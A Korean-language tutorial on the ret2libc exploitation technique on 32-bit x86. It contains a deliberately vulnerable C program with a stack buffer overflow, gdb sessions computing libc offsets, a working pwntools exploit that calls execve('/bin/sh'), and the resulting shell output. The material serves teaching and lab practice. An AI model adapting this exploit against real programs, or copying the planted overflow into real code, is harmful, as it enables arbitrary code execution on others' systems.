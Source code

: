 ## **Concept**

Return address 영역에 공유 라이브러리 함수 주소로 변조해, 해당 함수를 호출하는 기법.  
NX bit(DEP) 우회 가능.

```
0xffffd578  0xffffd598  이전 호출 프레임(push ebp)
0xffffd57c  0x0804844e  Return Address
0xffffd580  0x1         Arg 1
0xffffd584  0x2         Arg 2
0xffffd588  0x3         Arg 3
0xffffd58c  0x4         Arg 4
``` 

ret2libc 기법 사용 시 인자 값을 전달하기 위해서 Return address의 4byte 뒤에 인자 값을 전달해야 함.

## **Proof of Concept**  

```c
// Vuln Code
// gcc -fno-stack-protector -o ret2libc ret2libc.c -ldl
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
 
void vuln(){
    char buf[50] = "";
    void (*printf_addr)() = dlsym(RTLD_NEXT, "printf");
    printf("Printf() address : %p\n",printf_addr);
    read(0, buf, 100);
}
 
void main(){
    vuln();
}
```
buf 크기는 50byte이지만 100byte를 입력받아 Buffer Overflow 발생.

```
gdb-peda$ x/24wx $ebp
0xbfdcb318:	0x41414141         0x42424242 <- &execve 0x43434343 <- &exit 0x44444444 <- &"/bin/sh"
0xbfdcb328:	0x45454545 <- null 0x46464646 <- null    0x0000000a          0xb7e0b637
```

execve()와 "/bin/sh" 주소를 확인한다.

```
gdb-peda$ p printf
$1 = {<text variable, no debug info>} 0xb7e3c670 <__printf>

gdb-peda$ p execve-printf
$2 = 0x67170

gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xb7f4ea0b ("/bin/sh")
gdb-peda$ p 0xb7f4ea0b-0xb7e3c670
$3 = 0x11239b

gdb-peda$ p printf-exit
$4 = 0x1aca0
```

## **Exploit Code**
```python
# Exploit Code
from pwn import *
p=process('ret2libc')

recv = p.recvline()
printf=int(recv.split(' ')[3],16)
execve = printf + int(0x67170)
binsh = printf + int(0x11239b)
exit = printf - int(0x1aca0)
null = printf - int(0x49530)

print('printf  :'+hex(printf))
print('execve  :'+hex(execve))
print('/bin/sh :'+hex(binsh))
print('exit    :'+hex(exit))
print('null    :'+hex(null))
p.sendline("A"*66+p32(execve)+p32(exit)+p32(binsh)+p32(null)+p32(null))

p.interactive()
```

## **Exploit**
```shell
bs@bs-virtual-machine:~$ python exploit.py 
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[!] Could not find executable 'ret2libc' in $PATH, using './ret2libc' instead
[+] Starting local process './ret2libc': pid 16968
printf  :0xb7d94670
execve  :0xb7dfb7e0
/bin/sh :0xb7ea6a0b
exit    :0xb7d799d0
null    :0xb7d4b140
[*] Switching to interactive mode
$ id
uid=1000(bs) gid=1000(bs) groups=1000(bs),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

**Refereces**  
[https://www.lazenca.net/display/TEC/01.RTL%28Return+to+Libc%29+-+x86](https://www.lazenca.net/display/TEC/01.RTL%28Return+to+Libc%29+-+x86)

